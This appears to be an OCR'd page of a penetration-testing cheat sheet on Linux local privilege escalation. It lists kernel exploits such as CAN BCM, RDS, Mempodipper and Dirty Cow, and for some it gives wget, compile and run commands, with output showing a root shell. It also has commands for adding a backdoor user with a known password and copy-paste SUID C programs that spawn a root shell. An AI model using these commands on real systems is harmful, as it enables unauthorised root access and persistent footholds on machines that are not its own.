 *   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/14814/)

         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

*   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/15285/)

*   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](http://web.archive.org/web/20171113221652/https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056

          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

*   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](http://web.archive.org/web/20171113221652/https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

*   Run a command as a user other than root

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

*   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

*   Local Privilege Escalation Exploit in Linux

    *   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

        below are some quick copy and paste examples for various shells:

              SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  
